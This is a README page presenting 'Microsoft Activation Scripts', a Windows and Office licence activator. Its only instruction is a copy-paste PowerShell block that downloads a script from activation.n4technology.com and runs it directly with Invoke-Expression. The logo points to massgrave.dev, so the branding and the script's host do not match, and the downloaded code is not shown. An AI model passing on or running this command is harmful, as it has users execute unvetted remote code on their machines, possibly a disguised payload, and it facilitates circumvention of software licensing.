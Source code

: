 <p align="center"><img src="https://massgrave.dev/images/logo_small.png" alt="MAS Logo"></p>

<h1 align="center">Microsoft  Activation  Scripts (MAS)</h1>

<p align="center">A Windows and Office activator using HWID / Ohook / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.</p>
<hr>

## Download / How to use it?

### Method 1 - PowerShell (Recommended)

-   Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter
    ```
    $scriptUrl = "https://activation.n4technology.com/activation/activation.ps1"
    $response = Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing
    $scriptContent = [System.Text.Encoding]::UTF8.GetString($response.Content)
    Invoke-Expression $scriptContent


    ```
-   You will see the activation options. Follow the on-screen instructions.
-   That's all.



---

<p align="center">Made with Love ❤️</p>
